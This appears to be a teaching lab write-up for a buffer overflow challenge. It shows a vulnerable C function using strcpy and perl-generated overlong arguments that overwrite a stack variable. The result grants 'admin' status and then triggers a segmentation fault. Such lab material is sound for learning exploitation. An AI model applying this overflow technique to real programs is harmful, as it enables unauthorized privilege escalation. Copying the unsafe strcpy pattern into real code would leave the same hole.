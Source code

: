 # Simple Buffer overflow - local variable overwrite

## Intro

We will perform a simple buffer overflow on a binary. This overflow
will change a sensitive local stack variable, which will give us
virtual "admin" privileges.


### Source 

* Source directory: `~/challenges/challenge09/`
* Source files: [challenge09](https://github.com/dobin/yookiterm-challenges-files/tree/master/challenge09)

You can compile it by calling `make` in the folder `~/challenges/challenge09`


### Vulnerability

Read the source of `challenge09.c`.

The vulnerability lies here:
```c
void handleData(char *username, char *password) {
    int isAdmin = 0;
    char name[128];
	...
	strcpy(name, username); // strcpy() is unsafe
	...
}

int main(int argc, char **argv) {
    handleData(argv[1], argv[2]);
}
```

The first argument of the program is copied into a stack buffer `name` of 128 byte size.
After this buffer `name`, an important variable called `isAdmin` is located.


## Normal behaviour

Lets execute the program with normal length string, and with a wrong password:

```
~/challenges/challenge09$ ./challenge09 sheldon password
isAdmin: 0x0
Not admin.
```

The password "password" seems to be not correct. We dont know
what the actual password is.

But with the correct password, it would look like this:

```
~/challenges/challenge09$ ./challenge09 sheldon ...
isAdmin: 0x1
You are admin!
```


## Abnormal behaviour - buffer overflow

What happens when you insert a string which is longer than 128 bytes? Lets try it.
We can use perl to print 130 characters:

```
~/challenges/challenge09$ perl -e 'print "A" x 130'
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA~/challenges/challenge09$
```

And use this command as argument by encapsulating it into backticks:
```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 130'` password
isAdmin: 0x4141
You are admin!
```

It appears that we have overwritten the `isAdmin` variable with the content `0x4141`. 


## Abnormal behaviour - more buffer overflow

What if we even add some more characters? Lets say 140.

```
~/challenges/challenge09$ ./challenge09 `perl -e 'print "A" x 140'` password
isAdmin: 0x41414141
You are admin!
Segmentation fault (core dumped)
```

Not only is the `isAdmin` variable `0x41414141`, but we also get a `Segmentation fault` 
at the end.


## Things to think about

* What is happening here? Why Are we "admin" if we use a username which is 130 bytes long?
* Why do we get a segmentation fault if we use a username which is 140 bytes long?
